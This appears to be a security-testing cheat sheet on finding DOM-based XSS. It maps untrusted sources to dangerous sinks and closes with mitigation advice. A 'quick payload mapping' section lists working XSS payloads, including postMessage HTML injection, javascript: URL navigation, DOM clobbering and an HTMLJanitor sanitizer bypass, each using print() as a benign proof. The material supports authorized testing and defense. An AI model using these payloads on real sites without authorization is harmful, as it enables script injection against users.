 ### DOM Vulnerabilities Hunt Methodology

Use only with explicit authorization. This flow maps untrusted sources → dangerous sinks and common sanitizer/clobbering bypasses.

---

## Decision tree: question-driven DOM hunting

1) Identify sources
- URL parts: `location.search/hash/pathname/href`, `document.URL`, `referrer`.
- Storage/cookies: `document.cookie`, `localStorage`, `sessionStorage`.
- Messaging: `postMessage` (`message` event), `BroadcastChannel`.
- Programmatic: `history.pushState/replaceState`, `window.name`.

2) Locate sinks
- HTML insertion: `innerHTML/outerHTML/insertAdjacentHTML/document.write`.
- URL/navigation: `location.href/assign/replace`, `open()`.
- Attribute setters: `setAttribute('href/src', ...)`, template literals in attributes.
- JS eval: `eval/new Function/setTimeout(string)/setInterval(string)`.

3) Data flow and guards
- Is data parsed (JSON.parse), sanitized (DOMPurify/HTMLJanitor), or validated (origin checks)?
- Any regex filters? Are they substring/naive checks?

4) Choose attack path
- Web messages → inject HTML or `javascript:` URL via postMessage; test origin validation.
- JSON.parse path → craft JSON to load `javascript:` or HTML payloads consumed by sinks.
- Cookie/storage → store payload and trigger read on next render.
- DOM clobbering → create elements with conflicting `id/name` to override globals/objects.
- Sanitizer bypass → exploit attribute/property clobbering to keep event handlers.

5) Confirm execution
- Prefer `print()` or OAST beacons; use iframes to drive focus/hash navigation when needed.

---

## Quick payload mapping

- postMessage → `<iframe src="TARGET" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">`
- postMessage + navigation → `postMessage('javascript:print()//http:','*')`
- JSON.parse message → `postMessage(JSON.stringify({type:'load-channel',url:'javascript:print()'}),'*')`
- Cookie-seeded XSS → navigate in iframe to set cookie payload, then back to home to read and render.
- DOM clobbering → `<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=print()//">`
- HTMLJanitor attr-clobber bypass → `<form id=x tabindex=0 onfocus=print()><input id=attributes>` + `#x` focus.

---

## Reporting/mitigation

- Validate message origins and data shape; avoid `'*'` unless necessary.
- Use safe DOM APIs: `textContent`, attribute setters for URLs with strict allowlists.
- Avoid string-based eval; avoid writing to `innerHTML` with untrusted data.
- Harden sanitizers and avoid relying on DOM globals; disable implicit element globals.


